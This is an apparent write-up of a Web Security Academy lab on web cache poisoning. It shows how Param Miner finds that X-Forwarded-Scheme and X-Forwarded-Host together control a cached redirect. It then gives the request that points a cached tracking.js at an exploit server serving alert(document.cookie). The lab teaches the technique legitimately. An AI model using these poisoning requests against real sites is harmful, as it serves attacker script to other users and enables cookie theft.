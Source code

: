 Now we want to run another Param miner scan. But this time we want to run it together with `X-Forwarded-Scheme: nothttps`
It's important to understand that Param miner only adds 1 header per request that it makes. It never adds 2 or more headers. Therefore we now want to try other headers to be combined with the `X-Forwarded-Scheme: nothttps` header that we found in the first scan, to see if we can find another header, that in combination with `X-Forwarded-Scheme: nothttps` can modify the response further

So the result of the second scan:
```bash
Initiating header bruteforce on 0a4c000e046d8adf8538b7ad009c001f.web-security-academy.net
Identified parameter on 0a4c000e046d8adf8538b7ad009c001f.web-security-academy.net: x-forwarded-host~%s.%h
```

So we found `X-Forwarded-host` header modifies the response when combined with `X-Forwarded-host`and we try to use them both:
```bash
GET /resources/js/tracking.js?cb=1234 HTTP/2
Host: 0a41002b03d774ae80b2179300c300f2.web-security-academy.net
X-Forwarded-Host: example.com
X-Forwarded-Scheme: http
```
Response:
```bash
HTTP/2 302 Found
Location: https://example.com/resources/js/tracking.js?cb=1234
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 0
```

As we can see from the response we can manipulate the redirect url.
Important to note that the redirect that we got from the server is cached. Which means we can poison the cache with a redirect to our own server. And later other users will get this cached response (which is a redirect to our own server)

Go to the exploit server (or the server that you control) and create an endpoint that matches `/resources/js/tracking.js`
Pay attention: this is a js file, which means that whatever is contained in that js file, will later be executed by in the browser

So on our exploit server in the response body, we return the response: `alert(document.cookie)`

Now we need to poison the cache. We remove cache buster and modify X-Forwarded-Host header to point to the server that we control
```bash
GET /resources/js/tracking.js HTTP/2
Host: labid.web-security-academy.net
X-Forwarded-Scheme: any
X-Forwarded-Host: exploitserverid.exploit-server.net
```

And in the response we see that the response is cached. So we try to make another request on behalf of a victim user and we should get the redirect returned from the cache, and later our js payload is returned and executed in the browser.
